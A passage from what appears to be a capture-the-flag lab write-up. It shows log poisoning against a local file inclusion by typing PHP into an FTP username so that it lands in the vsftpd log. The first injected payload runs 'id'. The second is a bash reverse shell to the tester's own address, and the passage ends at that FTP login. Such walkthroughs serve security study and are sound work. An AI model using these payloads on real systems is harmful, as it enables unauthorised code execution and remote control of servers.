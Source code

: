 One weird thing - I am not able to access the Apache logs, `access.log` or `error.log` in `/var/log/apache2`. Perhaps they are in a non-default location, or the webserver lacks read access, or they are just empty.

### Log Poisoning

Log poisoning is a great attack against an LFI, but without the Apache logs, it doesn’t seem possible. But what about FTP? VSFTPd logs [are stored in](https://askubuntu.com/questions/829938/vsftpd-log-file-location) `/var/log/vsftpd.log`. It shows logs via the LFI, with logs from July (likely when the box was developed/tested):

![image-20211130175417591](https://0xdfimages.gitlab.io/img/image-20211130175417591.png)

I can try to log in with FTP, and the new login shows up as well:

![image-20211130175556231](https://0xdfimages.gitlab.io/img/image-20211130175556231.png)

Not only are attempts logged, but the username is in the logs.

I tried another failed login:

```

oxdf@parrot$ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:oxdf): <?php system('id'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> 

```

On refreshing the page with the logs in LFI, I have code execution:

![image-20211021063650139](https://0xdfimages.gitlab.io/img/image-20211021063650139.png)

### Shell

To get a shell, I logged into FTP again:

```

oxdf@parrot$ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:oxdf): <?php system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> 

```
